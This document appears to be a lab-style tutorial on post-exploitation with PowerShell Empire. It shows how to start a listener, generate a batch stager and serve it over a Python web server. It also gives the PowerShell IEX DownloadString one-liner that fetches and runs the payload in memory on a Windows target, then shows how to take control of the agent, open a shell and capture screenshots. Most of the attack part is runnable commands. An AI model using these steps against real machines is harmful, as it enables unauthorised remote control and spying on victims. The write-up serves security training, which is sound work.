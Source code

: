 # Welcome to Cyber Secure Labs


## Working with the newest version of Powershell Empire

Public Site for sharing security writes

Write-up by: Cybersec


## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](./Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](./Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](./Untitled%204.png)

![Untitled](./Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](./Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](./Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](./Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](./Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](./Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](./Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](./Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](./Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](./Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](./Untitled%2015.png)

![Untitled](./Untitled%2016.png)
